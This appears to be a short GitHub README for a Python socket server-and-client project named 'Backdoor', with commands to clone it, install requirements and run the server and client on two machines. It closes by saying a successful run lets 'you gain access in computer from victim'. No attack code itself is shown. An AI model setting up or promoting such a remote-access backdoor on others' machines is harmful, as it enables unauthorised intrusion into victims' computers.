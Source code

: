 # Backdoor

Example of a server and a client keep communication using sockets in python. First of all change the IP from HOST in client.py.


Steps:


clone the project

```sh
$ git clone https://github.com/jmessiass/backdoor.git
```
install requirements and execute the server using python 3 (I recommend to use PYENV).
```sh
$ cd backdoor
$ pip install -r requirements.txt
$ python server.py -p 12345 (choose any port)
```
in another machine, execute the client (don't forget of using the same port from server)

```sh
$ python client.py
```
if everything occurred good you gain access in computer from victim.
